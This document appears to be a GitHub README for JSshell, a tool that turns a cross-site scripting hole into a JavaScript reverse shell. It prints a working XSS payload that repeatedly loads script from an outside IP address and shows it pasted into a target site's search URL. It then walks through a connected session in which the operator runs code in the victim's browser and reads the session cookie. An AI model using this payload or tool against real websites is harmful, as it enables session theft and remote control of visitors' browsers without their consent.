 # JSshell (version 3.1)
JSshell - a JavaScript reverse shell. This is used to execute JS code remotely, exploit blind XSS, ...

This tool works for both Unix and Windows operating systems, and it can run on both Python 2 + Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from JShell).

### New in JSshell version 3.1
Updated in the new version of JShell 3.1:

- New JSshell command: `snippet` -> allows to write a snippet of javascript code

```sh
>>> snippet
Use CTRL+C to finish the snippet

function new() {
    new = 'New update: Support javascript snippet =)';
    confirm(new)
}

new()
>>> 
```
- Quiet mode (for professionals)
- Added `<body>` reverse shell payload
- Fixed some bugs

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically be closed):  `-w`
#### Execute a command after get the shell:  `-c`

#### Example usages:
- `jsh.py`
- `jsh.py -g`
- `jsh.py -p 1234`
- `jsh.py -s 48.586.1.23 -g`
- `jsh.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is a step-by-step example for how to use JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
~# whoami
root
~# ls
README.md   jsh.py
~# python3 jsh.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL):

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'controlled'
$ alert(test)
$
```
And the browser got an alert:  `controlled`

```
$ prompt(document.cookie)
$
```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

And we quited!


# Author
This is created by [shelld3v](https://github.com/shelld3v)!

